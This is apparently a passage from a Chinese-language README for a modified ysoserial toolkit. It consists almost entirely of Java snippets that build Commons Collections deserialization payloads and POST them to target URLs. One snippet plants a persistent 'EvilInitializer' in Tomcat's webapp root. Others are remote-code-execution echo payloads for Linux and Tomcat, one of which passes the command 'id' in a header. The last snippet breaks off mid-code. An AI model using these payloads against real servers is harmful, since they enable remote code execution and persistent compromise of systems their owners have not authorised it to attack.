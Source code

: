 利用 `ServletContainerInitializer` ：

```java
package top.inhann;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections10;
import ysoserial.payloads.persist.EvilInitializer;
import ysoserial.payloads.util.HttpRequest;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://wsl.com:8081/bitch";
        Object o = new EvilInitializer().getObject(CommonsCollections10.class,"/usr/local/tomcat/webapps/ROOT");
        byte[] ser = Serializer.serialize(o);
        new HttpRequest(url).addPostData(ser).send();
    }
}
```



### RCE 回显：

> 支持所有底层用了 `TemplatesImpl` 的链子

linux 通杀回显：

```java
package top.inhann;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections10;
import ysoserial.payloads.rceecho.LinuxEcho;
import ysoserial.payloads.util.HttpRequest;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://127.0.0.1:8081/bitch";
        Object o = new LinuxEcho().getObject(CommonsCollections10.class);
        byte[] ser = Serializer.serialize(o);
        byte[] resp =  new HttpRequest(url).addPostData(ser).send();
        System.out.println(new String(resp));
    }
}

```

tomcat 回显：

```java
package top.inhann;

import ysoserial.Serializer;
import ysoserial.payloads.CommonsCollections10;
import ysoserial.payloads.rceecho.TomcatEcho3;
import ysoserial.payloads.util.HttpRequest;

public class Test {

    public static void main(String[] args) throws Exception{
        String url = "http://wsl.com:8081/bitch";
        Object o = new TomcatEcho3().getObject(CommonsCollections10.class);
        byte[] ser = Serializer.serialize(o);
        byte[] resp =  new HttpRequest(url).addPostData(ser).addHeader("cmd","id").send();
```